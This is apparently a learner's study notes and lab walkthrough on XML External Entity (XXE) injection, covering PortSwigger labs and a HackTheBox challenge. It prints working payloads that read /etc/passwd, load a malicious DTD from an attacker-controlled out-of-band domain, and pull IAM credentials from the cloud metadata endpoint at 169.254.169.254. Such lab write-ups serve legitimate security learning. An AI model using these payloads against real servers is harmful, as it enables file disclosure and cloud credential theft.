# XXE
XXE (XML External Entity)(local  file inclusion) is a security flaw that lets hackers trick a website's XML reader into loading secret files from the server or making hidden web requests
XXE is classified as a misconfiguration, not an "unsafe coding" bug, 
## why xxe exists
XML allows a DOCTYPE to define "entities," and entities can point to external resources through the SYSTEM keyword. If the server-side XML parser does not disable external entity resolution (insecure default configuration), you can make it read local files or initiate network requests.

## How to Tell If an Application Might Be Vulnerable (The Attack Surface) 
you can suspect an application is vulnerable to XXE if it processes XML or accepts inputs that get converted/parsed as XML on the backend. Look for:
• Explicit XML APIs / SOAP Endpoints / SAML / RSS Feeds that accept XML payloads.
• File uploads that process XML-based or compressed formats under the hood, such as .svg images, .docx, .xlsx, or .odt files.
• Content-Type manipulation: Try changing a Content-Type: application/json (or similar) request header to application/xml or text/xml to see if the server still parses the body.
• Hidden or custom endpoints that take markup or HTML-to-PDF/sitemap generators.

## entities
XML entities are a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and > . When an XML parser reads a document, it replaces the entity reference with its actual defined value

for exmaple
<!-- Incorrect: This will cause a syntax error -->
<equation>5 < 10</equation>
 # correct
<equation>5 &lt; 10</equation>

 ## internal entities
 You can define your own entities inside a Document Type Definition (DTD) at the top of your XML file. This works like a "find and replace" shortcut for text you use repeatedly

 for exmaple : 
 <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY company "Acme Corporation">
  <!ENTITY copyright "Copyright 2026 Acme Corp. All rights reserved.">
]>
    # When parsed, &company; automatically expands to Acme Corporation.

## external entities
External entities pull content from an outside file or URL into the XML document. They use the SYSTEM keyword followed by a file path or web address.
 
 for exmaple :
<!DOCTYPE document [
  <!ENTITY legal_terms SYSTEM "https://example.com">
]>
or 
<!ENTITY entity_name SYSTEM "entity_value">

Because external entities allow an XML file to load outside files, poorly configured XML parsers can be tricked into reading sensitive server files (like /etc/passwd on Linux). This security flaw is known as an XML External Entity (XXE) attack.

### imp : note
 most real-world XXE vulnerabilities are "blind" (no data reflected in the response), so you cannot just rely on a simple payload that returns /etc/passwd; you must master out-of-band (OOB) exfiltration techniques

in most real cases endpoint do not parsed xml content bac to you

## Hidden Point One: Blind XXE is the Norm, You Must Use OOB
so in blind cases, use (out of band channel or like paste payload file on server and server will send  payload file through external entities) like : 
host a malicious .dtd file on your own server and then induce the target server to load it in the XML payload

for exmaple : 
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://YOUR-OOB-DOMAIN/evil.dtd">
  %xxe;
]>

## Hidden Point Two: XXE → SSRF → Cloud Credential Theft
this is the good technique to get the credentials , if web deploy on the cloud 

## Hidden Point Three: File Upload is a XXE Goldmine
Many people only stare at Content-Type: application/xml interfaces. In fact, SVG images, DOCX, XLSX, and even some "custom compressed packages" are essentially XML

## Hidden Point Four: Do Not Ignore SAML and SOAP
SAML login flows and SOAP APIs are both XML-based. SAML is particularly noteworthy because it appears in authentication scenarios and, once vulnerable, has extremely high impact.

Learn it well, but treat it as a targeted skill, not a daily bread-and-butter vuln like XSS or IDOR.Focus especially on:
Blind / out-of-band XXE
XXE via file upload (SVG + Office documents)
XXE → SSRF (cloud metadata, internal services)
Parameter entity and error-based techniques

# practice practically (portswigger)

there are the different type of the xxe attacks that we will perform  with port swigger labs 

### 1 : Exploiting XXE to retrieve files
can be attacked : where an external entity is defined containing the contents of a file, and returned in the application's response.

Core Requirements for the Exploit
To successfully retrieve a file via XXE, you need to modify the incoming XML payload in two key ways:

Define a DOCTYPE with an External Entity: Add a DOCTYPE declaration that introduces a custom external entity pointing to the target file path using the file:// URI scheme.

Reference the Entity: Use that defined entity inside an XML data value that the application processes and echoes back in its response.

Practical Example: Reading /etc/passwd
1. Normal Request
Suppose a shopping application checks product stock by sending this standard XML payload:

XML
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>381</productId>
</stockCheck>
2. Malicious XXE Payload
Because the application does not defend against XXE, you can inject an external entity named &xxe; that points to /etc/passwd, and then reference it inside the <productId> tag:

XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>

3. Application Response
The XML parser resolves the external entity, reads the contents of the local file, and embeds it into the application's response (such as an error message):

Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

get the lab and  open url in browser(also open in burp-suit)


click on any prodcut and submit it and intercept in the burpsuit


here  we can see ,  The application performs no particular defenses against XXE attacks, 

To retrieve the /etc/passwd file via an XML External Entity (XXE) injection, we can define a custom DTD that declares an external entity pointing to the file system path,

<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
 and then reference that entity inside the XML body
<productId>&xxe;</productId>

full payload : 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>

so   repalce  payload and see the relsut 


here  you  can see this give server response and now we have successfully exploit it and solved 

### htb : ctf try out (challenge : Jailbreak )

I opened the ip address.

I went to diffferentt options “STAT”, “INV”, “DATA”, “MAP”, “RADIO” and found nothing.


Then I went to ROM and found an XML document. Analyzing this XML document, we can infer that the application extracts a specific value identified as “Version” from the XML input to construct a response message.

then come  to know that this can  be the xml  injecton vulnerability , i instantly put xml  payload (after lots of error)
i  got the  flag 


### 2 : Exploiting XXE to perform SSRF attacks

Aside from retrieval of sensitive data, the other main impact of XXE attacks is that they can be used to perform server-side request forgery (SSRF). This is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

XXE can also be used for server-side request forgery (SSRF). This lets an attacker force the server to make HTTP requests to any URL it can reach (internal systems, cloud metadata, etc.).

To do it, define an external entity that points to the target URL, then reference that entity in a value the application processes.If the application returns the entity’s content in its response, you get the full response from the internal URL (two-way SSRF). If not, you still get blind SSRF, which can still be critical.

Example that makes the server request an internal host: XML<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>



important note about this lab :
lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/

XXE, you can trick the website into making a request for you to that internal address.You basically say to the website:

“Hey, when you parse this XML, go fetch (http://169.254.169.254/...or any other) and put the result into the response.”The website (the server) then goes and talks to the metadata endpoint, gets the IAM secret access key, and (because the lab returns unexpected values) shows you that key in the response.

You cannot directly visit http://169.254.169.254 from your browser — it is only reachable from inside the server

but question is that how to come to know that web has the internal(url,system , or  other) ? 

Finding an internal URL or IP address when you are an external attacker might seem tricky, but attackers don't usually guess it completely blind. They use a mix of common patterns, application clues, and automated scanning through the vulnerable server itself

here are the common ways : 

1. Common Default Names & Localhost
Most internal applications and services follow predictable naming conventions. Attackers always test standard local addresses first:

http://localhost/ or [http://127.0.0.1/](http://127.0.0.1/) (Refers to the server itself)
http://internal/, http://admin/, http://staging/, or http://dev/
In cloud environments (like AWS, Azure, or GCP), there is a famous standard internal IP used to steal cloud credentials: [http://169.254.169.254/latest/meta-data/]

2. Information Leaks in the Application
Error Messages: If the server is misconfigured, error messages might accidentally reveal internal paths, internal domain names, or server names.

JavaScript Files & Source Code: Frontend code sometimes contains hardcoded API endpoints, internal hostnames, or references to backend microservices (e.g., [http://api-internal.local/v1/](http://api-internal.local/v1/)...).
Comments: Developers sometimes leave HTML or JavaScript comments like <!-- TODO: update link to http://internal-billing-server -->.

if vulnerability exists then we can do also local test scanning for check which service are running in the internal server
like   :  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1:8080/"> ]>

ok now open lab and open url through burp suit browser (click on any product and capture on  burpsuit)




we are doing a cloud metadata lab (like AWS), you usually need to target a specific metadata path rather than just the root IP,
[http://169.254.169.254/latest/meta-data/]
(http://169.254.169.254/latest/meta-data/)

so i  put pauload this : 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/"> ]>



lab is not solve  yet  but it  give us top clue

what it means :  
"Invalid product ID: iam" mean that the backend application is strictly expecting the productId to be a valid number (like digits).

Where iam Came From: When the server evaluated your &xxe; entity and made an HTTP request to [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/), the cloud metadata service returned a list of available metadata categories, which starts with iam/ (short for Identity and Access Management).

The Failure: The XML parser successfully fetched iam/ from the cloud service, pasted it right into the <productId> tag, and sent it to the backend application logic. But because iam is text instead of a number, the application threw an error saying it's an invalid product ID.

The server successfully made an outbound request to 169.254.169.254 (proving SSRF is possible).

so if you remember that last reponse was :  iam --> so thats why put iam in payload url
and then  get this response :  


 now i  get admin
 

 lets try with admin
 

lab solved

